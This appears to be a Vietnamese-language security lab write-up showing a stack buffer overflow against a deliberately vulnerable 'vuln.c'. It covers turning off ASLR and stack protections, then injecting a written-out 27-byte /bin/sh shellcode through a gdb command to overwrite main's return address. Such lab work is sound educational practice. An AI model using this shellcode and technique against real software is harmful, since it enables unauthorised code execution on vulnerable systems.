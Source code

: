 # 1. Injection code to delete file via vuln.c

![alt text](../images/image-32.png)

Mục tiêu là thay đổi giá trị trở về của hàm main sao cho có thể chạy shellcode

### Shellcode

#### 1. Viết chương trình shellcode bằng hợp ngữ, biên dịch (nasm) và liên kết (ld) để tạo chương trình thực thi

`nasm -g -f elf sh.asm `

`ld -m elf_i386 -o sh sh.o`

#### 2. dùng objdump -d sh để xem mã nhị phân của file sh

![alt text](../images/image-33.png)

Dùng câu lệnh này để chỉ lấy các mã nhị phân của file sh và in ra

![alt text](../images/image-34.png)

=> 27 bytes của shellcode

### Chuẩn bị môi trường lab

- Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH

- ![alt text](../images/image-35.png)

- Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack

![alt text](../images/image-36.png)

* "-z execstack: "cho phép thực thi code trên stack"

- Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04
  
![alt text](../images/image-37.png)

* Phiên bản 16.04 có cơ chế bảo vệ stack => tắt đi => tạo shell mới zsh cho phép thực thi

### CONDUCTING THE ATTACK

Mục tiêu là chèn 27 bytes của shellcode vào biến buf + 41 bytes bất kì

=> 68 bytes của buf + ebp

disas main

![alt text](../images/image-40.png)

đặt breakpoint sau khi stackframe được thiết lập: 0x08048441

![alt text](../images/image-38.png)

đặt breakpoint sau khi esp quay trở lại trí ban đầu: 0x0804846b

![alt text](../images/image-39.png)

chạy chương trình

`r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80'+'41'*a+'\xff\xff\xff\xff')")`

*'\xff\xff\xff\xff': dùng để nhận diện địa chỉ trả về của hàm main

xem bộ nhớ stack khi stackframe được thành lập

![alt text](../images/image-42.png)

xem bộ nhớ stack sau khi đã chèn shellcode vào

![alt text](../images/image-43.png)

* 27 bytes đầu là của shellcode

* 41 bytes a

* 4 bytes 0xff là return address

thay thế địa chỉ trả về của stack thành esp

![alt text](../images/image-45.png)

bộ nhớ stack sau khi thay thế địa chỉ trả về của stack thành esp

![alt text](../images/image-46.png)

chạy tiếp

![alt text](../images/image-47.png)
